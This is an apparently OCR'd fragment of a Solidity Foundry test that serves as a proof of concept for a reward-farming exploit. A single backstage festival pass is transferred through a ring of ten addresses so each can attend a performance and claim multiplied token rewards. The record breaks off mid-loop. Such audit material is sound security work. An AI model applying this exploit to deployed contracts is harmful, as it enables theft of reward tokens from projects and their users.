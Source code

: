 ```Solidity
        uint256 BACKSTAGE_MULTIPLIER = 3;
        
        vm.prank(organizer);
        festivalPass.configurePass(BACKSTAGE_PASS, BACKSTAGE_PRICE, 100);
        
        vm.deal(alice, 1 ether);
        vm.prank(alice);
        festivalPass.buyPass{value: BACKSTAGE_PRICE}(BACKSTAGE_PASS);
        
        // Create multiple performances for maximum exploitation
        vm.startPrank(organizer);
        uint256 perf1 = festivalPass.createPerformance(block.timestamp + 1 hours, 6 hours, BASE_REWARD);
        uint256 perf2 = festivalPass.createPerformance(block.timestamp + 2 hours, 6 hours, BASE_REWARD);
        vm.stopPrank();
        
        // Create lending ring of 10 users
        address[] memory lendingRing = new address[](10);
        for (uint256 i = 0; i < 10; i++) {
            lendingRing[i] = makeAddr(string(abi.encodePacked("user", i)));
        }
        lendingRing[0] = alice; // Alice starts with the pass
        
        console.log("Lending ring size:", lendingRing.length);
        console.log("BACKSTAGE pass multiplier:", BACKSTAGE_MULTIPLIER);
        console.log("Expected reward per attendance:", BASE_REWARD * BACKSTAGE_MULTIPLIER);
        
        // Exploit Performance 1
        vm.warp(block.timestamp + 90 minutes);
        console.log("\n--- Exploiting Performance 1 ---");
        
        for (uint256 i = 0; i < lendingRing.length; i++) {
            address currentUser = lendingRing[i];
            
            // User attends performance
            vm.prank(currentUser);
            festivalPass.attendPerformance(perf1);
            
            uint256 reward = beatToken.balanceOf(currentUser);
            if (i == 0) reward -= 15e18; // subtract Alice's welcome bonus
            
            console.log("User", i, "reward:", reward);
            
            // Transfer to next user (except last)
            if (i < lendingRing.length - 1) {
                address nextUser = lendingRing[i + 1];
                vm.prank(currentUser);
                festivalPass.safeTransferFrom(currentUser, nextUser, BACKSTAGE_PASS, 1, "");
            }
        }
        
        // Wait for cooldown and exploit Performance 2
        vm.warp(block.timestamp + 2 hours);
        console.log("\n--- Exploiting Performance 2 ---");
        
        // Start from last user who has the pass
        address currentHolder = lendingRing[lendingRing.length - 1];
        
        for (uint256 i = 0; i < lendingRing.length; i++) {
            vm.prank(currentHolder);
            festivalPass.attendPerformance(perf2);
            
```